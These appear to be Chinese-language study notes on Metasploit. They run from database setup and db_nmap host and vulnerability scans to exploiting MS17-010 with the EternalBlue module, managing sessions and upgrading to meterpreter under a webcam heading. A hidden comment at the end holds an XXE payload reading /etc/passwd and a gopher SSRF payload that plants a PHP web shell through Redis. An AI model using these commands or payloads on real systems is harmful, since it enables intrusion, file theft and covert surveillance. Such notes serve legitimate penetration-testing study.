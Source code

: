 <!---
```diff
+ green color text
- red color text
```
-->

+ 進入metasploit
  - msfdb init : 初始化數據庫 (若沒執行這行，連接數據庫會有問題)
  - msfconsole : 啟動
  - workspace : 當前工作區
  - db_status :　是否成功連接到數據庫
  - workspace -a meow :　另創一個數據庫meow
  - ? : 通過?查看當前工作區可以使用的指令
  
![image](https://user-images.githubusercontent.com/96654161/170452994-0fe2ddb7-384f-4459-ac3f-a124c83b3922.png)

+ 信息蒐集 -> 內網主機發現
  - db_nmap : nmap掃描
    - -PA : TCP ACK PING掃描
    - -PS : TCP SYN PING掃描
    - -PR : ARP掃描nmap對目標進行arp ping掃描的過程，尤其在內網的情況下。因為防火牆不會禁止ARP請求
    - hosts : 列出當前工作區所有主機
    
  - 1.ifconfig 查看當前哪些主機存活
  - 2.db_nmap -PR IP/24
  
![image](https://user-images.githubusercontent.com/96654161/170454550-ace64ee5-bc5b-441c-9a1f-336568b2abd2.png)

     -T[0-5] : 莫認為T3、T4表示最大TCP掃描延遲為10ms
     sS : TCP SYN掃描
     sA : TCP ACK掃描
     sY : TCP SYN掃描
     A : 打開操作系統探測和版本探測
 
  - db_nmap -sS -A -T4 192.168.xx.x
![image](https://user-images.githubusercontent.com/96654161/170462660-3b86cb80-6cd1-4b8b-845f-fccd63797fb7.png)

  - db_nmap --script=vuln IP
    - script=vuln : 檢查是否具有常見漏洞
![image](https://user-images.githubusercontent.com/96654161/170464782-26acc2ae-f016-4e50-a663-93dcd80ac177.png)
>這裡找到ms17_010

+ auxiliary 模塊
  - search ms17_010
 
![image](https://user-images.githubusercontent.com/96654161/170476395-67b42a48-a313-4595-aaac-7a59570dcdbd.png)
>這裡看到第三項，描述的是for win8，但在前面掃描OS是win7所以不適用

  - info auxiliary/scanner/smb/smb_ms17_010

![image](https://user-images.githubusercontent.com/96654161/170468777-31bd8a4c-e86d-4584-a37c-e2f938d267c9.png)

  - use auxiliary/scanner/smb/smb_ms17_010 #要使用某模塊都用 use modules
  - options 查看設置 ->required 如果是yes就必須要配置
![image](https://user-images.githubusercontent.com/96654161/170471161-04096171-0096-4c96-92e6-fc5cc911859c.png)

  - set RHOSTS 掃描主機IP
  - run / exploit 執行
![image](https://user-images.githubusercontent.com/96654161/170472589-93bc1135-7785-47a5-b28e-c4e3d361b9fe.png)

+ use exploit/windows/smb/ms17_010_eternalblue
+ options
+ set rhosts ip
+ show targets
+ run

![image](https://user-images.githubusercontent.com/96654161/170538076-6daa23d6-324e-4a85-af13-0ba5bc71738e.png)
![image](https://user-images.githubusercontent.com/96654161/170542273-10a4a4fb-3675-4f8a-a251-9986197e8170.png)
![image](https://user-images.githubusercontent.com/96654161/170542834-39ae3629-4501-4b9b-8d89-03b2771d5806.png)

>sessions[-l] : 列出當前所有session
>sessions[-i]id:進入某個session
>background : 把當前shell放到後台去執行，然後返回到MSF中

![image](https://user-images.githubusercontent.com/96654161/170543869-79dae501-522f-4151-80f5-8cb957994134.png)

```diff
show exploits -> 查看所有可用的滲透攻擊程序代碼 
show auxiliary -> 查看所有可用的輔助攻擊工具
[show]options/advanced -> 查看該模塊可用選項
show payloads -> 查看該模塊適用的所有載荷代碼
show targets -> 查看該模塊適用的攻擊目標類型
search -> 根據關鍵字搜索某模塊
info -> 顯示某模塊的詳細信息
use -> 使用某滲透攻擊模塊
back -> 回退
set/unset -> 設置/禁用模塊中的某個參數
setg/unsetg -> 設置/禁用適用於所有模塊的全局參數
save -> 將當前設置值保存下來，以便下次啟動MSF終端時仍可使用
```
### 開啟攝像頭

+ sessions -u id : 將某個session轉為meterpreter
+ 由shell轉meterpreter 

![image](https://user-images.githubusercontent.com/96654161/170551298-5e7490c3-eedf-4547-8adb-2a0e2f713a98.png)

+ sessions -i id
+ ? (查看當前可以使用的命令)
![image](https://user-images.githubusercontent.com/96654161/170551366-390beaf3-9fec-4584-bd8d-3e76906cdc2b.png)
![image](https://user-images.githubusercontent.com/96654161/170551422-770a6fbc-db10-471f-940b-972ef34aadc1.png)
![image](https://user-images.githubusercontent.com/96654161/170551811-67a65e65-2925-4c1d-b39e-57b99f996055.png)
![image](https://user-images.githubusercontent.com/96654161/170551958-4c27c0c4-ab7a-4d03-a48f-c869a391b668.png)




<!---
XXE 
<!DOCTYPE kaibro[
       <!ENTITY xxe SYSTEM "file:///etc/passwd">
     ]>
     <root>&xxe;</root>
     
 SSRF gopher     
 gopher://localhost:6379/_FLUSHALL%0d%0aSET%20kaibro%20"<%3F=system($_GET[1]);%3F>"%0d%0aCONFIG%20SET%20DIR%20/www/%0d%0aCONFIG%20SET%20DBFILENAME%20ggininder123.php%0d%0aSAVE%0d%0aQUIT

-->
